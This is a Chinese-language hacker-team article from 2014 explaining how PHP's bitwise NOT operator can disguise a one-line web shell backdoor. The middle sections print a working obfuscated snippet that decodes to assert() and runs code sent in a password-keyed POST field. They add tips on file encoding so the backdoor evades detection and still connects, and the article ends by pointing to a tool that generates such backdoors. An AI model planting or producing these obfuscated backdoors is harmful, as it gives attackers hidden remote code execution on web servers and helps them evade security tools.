




 

    .::PHP中使用按位取反(~)函数创建后门::.

    We enjoy hacking of life in day and night.

    _______________________________________________
				
    [+] Author: Evi1m0 <evi1m0.bat#gmail.com>
    [+] Team: FF0000 TEAM <http://www.ff0000.cc>
    [+] From: HackerSoul <http://www.hackersoul.com>
    [+] Create: 2014-02-04
    _______________________________________________

    -= Main =-

1）PHP ~位运算符
前一段时间老外在twitter上爆出个有趣的东西，一串疑似乱码的字符串访问后却能正常输出1337。

PHP: 位运算符

    http://www.php.net/manual/zh/language.operators.bitwise.php
    ~ $a        Not（按位取反）        将 $a 中为 0 的位设为 1，反之亦然

PHP 的 ini 设定 `error_reporting `使用了按位的值，提供了关闭某个位的真实例子。要显示除了提示级别之外的所有错误。
php.ini 中是这样用的： `E_ALL & ~E_NOTICE `
具体运作方式是先取得 E_ALL 的值：` 00000000000000000111011111111111 `
再取得 E_NOTICE 的值： `00000000000000000000000000001000 `
然后通过 ~ 将其取反：` 11111111111111111111111111110111 `
最后再用按位与 AND（&）得到两个值中都设定了（为 1）的位： `00000000000000000111011111110111`

2）分析并重现
这个就是当时最原始的代码实现效果：

当看到这个效果的时候最先想到的就是绕过防火墙等后门的实现，之后开始考虑这是哪种编码方式？
后来同李普君测试中发现直接使用echo ~'1';等则会直接输出以上的'乱码'。

    <?php
    $x=~Ÿ¬¬º­«;
    $x($_POST[~¹¹ÏÏÏÏ]);
    ?>

那么我们便可以开始写一句话试试效果了：

这里定义$x变量为ASSERT，然后密码为FF0000直接链接后门便可，因为当位取反出来'乱码'后我们再取一次反即可返回正常值。

3）关于编码与免杀
当重现这个后门的时候我发现，直接Copy过来的直接HTTP状态500，源头是编码问题，上面这种'乱码'其实为西欧（ISO-8859-15）。
实际过程中我们遇到了多次后门无法链接出现500的错误均势因为编码问题，如果默认编码无法识别将编码方式保存为这种即可（GBK\UTF8\...均不能成功使用）

4）留在最后
我们写了一个小脚本为了方便生成：http://www.hackersoul.com/tools/Createbackdoor-1.php
使用方法：`Createbackdoor-1.php?pwd=password`

url:http://hackersoul.com/post/PHP%E4%B8%AD%E4%BD%BF%E7%94%A8%E6%8C%89%E4%BD%8D%E5%8F%96%E5%8F%8D%E5%87%BD%E6%95%B0%E5%88%9B%E5%BB%BA%E5%90%8E%E9%97%A8.html

    -= END =- 